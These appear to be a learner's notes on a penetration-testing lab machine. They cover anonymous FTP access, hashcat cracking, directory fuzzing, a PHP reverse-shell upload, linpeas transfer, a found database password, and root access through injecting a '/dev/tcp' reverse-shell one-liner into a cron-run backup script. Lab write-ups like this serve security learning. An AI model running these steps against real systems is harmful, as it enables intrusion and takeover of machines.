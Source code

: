 #ftp 
ftp [ip]
anonymous , anonymous
get

cat note.txt

#crack hash found
hashidentifier
locate rockyou.txt
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
hashes.txt
hashcat -m 0 hashes.txt rockyou.txt
'student'

#fuzzing
dirb http://10.0.2.5
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.5/FUZZ
'academy'

then: 10201321 and student

#shell
!we need code execution!

upload malicious file in profile ! ummm : 'php reverse shell' --> shell.php and upload it

==shell== is got
whoami --> normal user

#privilege_escalation
linpeas
run python server : python3 -m http.server 8080
then go to shell you spawn earlier : wget 10.0.2.4:8080/linpeas.sh
```
/home/grimmie/backup.sh

/var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";

```

![[Pasted image 20240522231842.png]]
find a password

#ssh

ssh grimmie@10.0.2.5

==shell==
crontab -l 
crontab -e
crontab -u root -l

systemctl list-timers

#validatio that is runing in timmer :
pspy64 install and add it to transfer to run in with gimmie shell

#reverse_shell
reverse shell one liner
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

inject this in backup.sh after deleting its content:
bash -i >& /dev/tcp/10.0.2.4/8081 0>&1